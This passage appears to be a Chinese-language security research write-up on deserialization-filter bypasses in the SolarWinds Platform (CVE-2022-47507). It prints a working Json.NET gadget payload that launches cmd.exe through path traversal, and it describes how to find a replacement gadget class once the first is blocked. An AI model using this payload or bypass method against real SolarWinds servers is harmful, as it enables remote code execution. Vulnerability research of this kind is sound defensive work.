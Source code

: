 -   在产品代码库中实现。
-   允许在反序列化期间达到危险行为。在这里，通过生成新进程实现远程代码执行。

`WorkerControllerWCFProxy`类的示例 `Json.NET` 小工具，将执行“cmd.exe /c whoami > C:\\poc.txt”命令：

```plain
{ 
    "$type": "SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy,  
SolarWinds.JobEngine, Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
    "workerConfiguration": { 
        "$type": "SolarWinds.JobEngine.WorkerConfiguration, SolarWinds.JobEngine,  
Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
         "WorkerType": 1, 
        "CommandLine":  
"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\cmd.exe", 
         "CommandArguments": "/c whoami > C:\\poc.txt & " 
    }, 
    "operationMode": 0, 
    "workerProcessLabel": "whatever" 
} 
```

代码段 26 WorkerControllerWCFProxy gadget

#### 1.8 SolarWinds Platform – 第 3 个绕过 - CVE-2022-47507

当我们找到一个允许滥用反序列化漏洞的自定义小工具并报告它时，它很快就会被阻止。

如果已经有了一个小工具，有两件事情可以迅速尝试：

-   可以检查是否有一个类，它继承自小工具类，会发现通过具有不同名称的类可以轻松达到相同的危险行为。这个类可能不会被补丁阻止。
-   可以检查在小工具中使用的类是否在任何不同的类中使用。

我没有找到继承 `WorkerControllerWCFProxy` 的类，但我找到了 `SolarWinds.JobEngine.Engine.WorkerProcessWCFProxy`，它内部调用 `WorkerControllerWCFProxy` 构造函数。

这个类只实现了一个公共构造函数：

```plain
public WorkerProcessWCFProxy(int maxConcurrentJobs, string assemblyName, 
WorkerConfiguration workerConfiguration, ServiceOperationMode operationMode) //  
[1] 
{
    this.maxConcurrentJobs = maxConcurrentJobs; 
    this.assemblyName = assemblyName; 
    this.operationMode = operationMode; 
    this.workerConfiguration = workerConfiguration; 
    try 
    { 
         this.CreateWorkerController(); // [2] 
        this.LaunchWorker(); 
         this.Connect(); 
    } 
    catch (Exception) 
     { 
        this.Terminate(); 
        throw; 
    } 
}
```
